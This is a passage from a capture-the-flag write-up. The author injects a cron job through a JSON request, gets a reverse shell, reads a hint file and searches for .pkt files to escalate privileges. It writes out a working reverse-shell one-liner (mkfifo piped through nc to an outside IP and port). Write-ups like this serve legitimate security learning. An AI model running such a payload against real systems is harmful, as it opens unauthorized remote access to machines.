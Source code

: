 No reasonable jobs for the `maui` user, we can edit this to spawn a reverse shell for us.

```bash
# i used burpsuite, curl was misbehaving for me.
{
"hash":"aXNsYW5k",
"job":"* * * * * rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.88.214 9000 >/tmp/f"
}
```

<figure><img src=".gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

And got shell almost immediately.

<figure><img src=".gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to moana

{% code overflow="wrap" %}
```bash
www-data@motunui:/home/moana$ cat read_me 
I know you've been on vacation and the last thing you want is me nagging you.

But will you please consider not using the same password for all services? It puts us all at risk.

I have started planning the new network design in packet tracer, and since you're 'the best engineer this island has seen', go find it and finish it.
```
{% endcode %}

So a hint: packet tracet user uses `.pkt` extension. We can use find to search for `.pkt` files.

```bash
find / -type f -iname "*.pkt" -readable 2>/dev/null

/etc/network.pkt
```
